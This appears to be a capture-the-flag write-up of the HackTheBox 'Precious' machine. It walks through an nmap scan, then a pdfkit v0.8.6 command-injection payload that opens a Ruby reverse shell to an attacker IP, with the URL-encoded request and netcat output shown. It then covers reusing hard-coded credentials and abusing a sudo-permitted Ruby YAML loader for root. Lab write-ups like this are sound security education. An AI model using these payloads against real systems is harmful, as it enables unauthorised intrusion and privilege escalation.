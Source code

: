 ```yaml
---
title: "HackTheBox Precious" 
date: 2022-12-03T21:07:49+01:00
draft: false
---
```


Exploit Universal RCE with Ruby YAML.load (versions > 2.7) to gain a reverse shell then
grab hard-coded credentials for a user that has root permissions to run ruby script that lead
to root.
<!--more-->


## **Nmap**

We don’t change good habits and start with nmap scan : 

```
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-03 21:22 CET
Nmap scan report for precious.htb (10.10.11.189)
Host is up (0.019s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 845e13a8e31e20661d235550f63047d2 (RSA)
|   256 a2ef7b9665ce4161c467ee4e96c7c892 (ECDSA)
|_  256 33053dcd7ab798458239e7ae3c91a658 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Convert Web Page to PDF
| http-server-header: 
|   nginx/1.18.0
|_  nginx/1.18.0 + Phusion Passenger(R) 6.0.15
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.85 seconds
```

Only two ports open `ssh:22` and `http:80`. (Don't forget to add precious.htb to your hosts file).

## **HTTP:80**

![image text](/precious_htb_web_page.png)

At first sight it's a simple web page to pdf converter. \
start a simple python web server and convert our web page to pdf while capturing the request 
with burpsuite :

![image text](/to_pdf_precious_htb.png)
It seems to work fine let's see what's running behind with burpsuite.

![image text](/first_capture_burpsuite.png)

The website is doing a POST request to the root with our url parameter \ 
send the request to repeter and catch the response : 

![image text](/second_capture_burpsuite.png)

We see and bunch of information looking at the end an interesting info
alerts me : 
![image text](/third_capture_burpsuite.png)

`Generated by pdfkit v0.8.6`. If we search for pdfkit v0.8.6 exploit, a  **[CVE](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795)** that lead
to a command injection. Great let's exploit It !

## **Shell as ruby**
By following the POC : ``http://example.com/?name=#{'%20\`sleep 5`'}``
Trying the command sleep worked for me but now how could we manage to 
get a reverse shell ? \
I thought about replace sleep 5 by a bash reverse shell but I didn't works then 
I remembered that the `X-Runtime` Header was Ruby so instead of generate a bash reverse shell 
I could generate a ruby reverse shell : 

```
ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("IP",PORT))'
```

Insert the payload in the url parameter in burpsuite, start a netcat listenner and the request  :

```
url=http://10.10.14.233/?name=#%7B%27%2520%60ruby+-rsocket+-e%27spawn(%22sh%22,[%3ain,%3aout,%3aerr]%3d%3ETCPSocket.new(%2210.10.14.233%22,6666))%27%60%27%7D
```
Within a second a connection should be established to your netcat ! 

```
┌──(kali㉿kali)-[~]
└─$ rlwrap nc -lnvp 6666                 
listening on [any] 6666 ...
connect to [10.10.14.135] from (UNKNOWN) [10.10.11.189] 39510
id
uid=1001(ruby) gid=1001(ruby) groups=1001(ruby)
```

## **From ruby to henry**
by dive in ruby's home directory we see an unsual directory named : .bundle.
This directory contains a config file with hard-coded credentials for henry use.
Let's try these credentials with ssh : 

```
┌──(kali㉿kali)-[~/Documents/htb/playground]
└─$ ssh henry@precious.htb         
henry@precious.htb's password: 
Linux precious 5.10.0-19-amd64 #1 SMP Debian 5.10.149-2 (2022-10-21) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Dec  4 06:02:19 2022 from 10.10.16.50
henry@precious:~$ 
```

From there we can grab the user flag.

## **Root**

The root part was easy (too much easy) \
`sudo -l` shows us that henry can run a ruby script with root privileges : 

```
User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

The `update_dependencies.rb` file load a yaml file (unfortunately some people had fun deleting the file at the time I'm writing this ) in this yaml 
file we could specify a bash reverse shell, just replace the actual reverse shell with yours and` execute the ruby file with sudo`.
Once the file is executed a reverse shell as root should be established.
**Congratz !!! Precious as been rooted**.